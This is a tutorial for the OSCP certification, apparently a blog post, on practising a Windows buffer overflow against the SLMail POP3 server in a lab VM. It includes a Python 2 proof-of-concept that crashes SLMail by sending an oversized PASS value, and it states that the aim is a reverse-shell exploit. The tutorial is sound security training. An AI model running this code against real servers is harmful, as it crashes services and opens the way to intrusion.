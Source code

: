 ```yaml
---
title: "OSCP: Windows Buffer Overflow"
last_modified_at: 2019-11-01T16:20:02-05:00
categories:
  - Cyber Security
tags:
  - OSCP
  - Windows
  - Buffer Overflow
---
```


# Windows Buffer Overflow (SLMail)
Seattle Lab Mail (SLMail) is fantastic vulnerable app to practise your buffer overflow on. You will have to download a version of the vulnerable SLMail to a Windows VM. The SLMail buffer overflow affects the **POP3 PASS** command. Both the app itself and the exploit are available on Exploit Database ([exploit][exploit])!

You will have to jump between your Kali machine (to tweak your exploit) and the Windows VM (to restart SLMail after each crash and analyze the crash in Immunity Debugger) You will need [Immunity Debugger][Immunity Debugger] to help develop your exploit.

### 1. Run Immunity Debugger, attach SLMail, run the buffer overflow and crash SLMail
We can start with the simple proof of concept above that we will modify bit-by-bit until we get a fully functional exploit that gives a reverse shell to our Kali machine.
First, on your target Windows VM: run SLMail (as admin).
Open Immunity Debugger and attach SLMail to it; Make sure that Immunity debugger is running then go to your KALI machine and run the proof-of-concept (poc.py) Python2 script shown below.

```python
import socket

# opens a socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# we are sending a string of 2700 'A's
buffer = 'A' * 2700

try:
 print "\nSending buffer"
 
 # connect to the target ip and port 110
 s.connect(('10.1.1.150',110))
 data = s.recv(1024)

 # send a generic username
 s.send('USER username' +'\r\n')
 data = s.recv(1024)

 # send the buffer
 s.send('PASS ' + buffer + '\r\n')
 print "\nDone!."

# return the following message if we failed to connect
except:
 print "Could not connect to POP3!"
```


[exploit]: https://www.exploit-db.com/exploits/638
[Immunity Debugger]: https://www.immunityinc.com/products/debugger/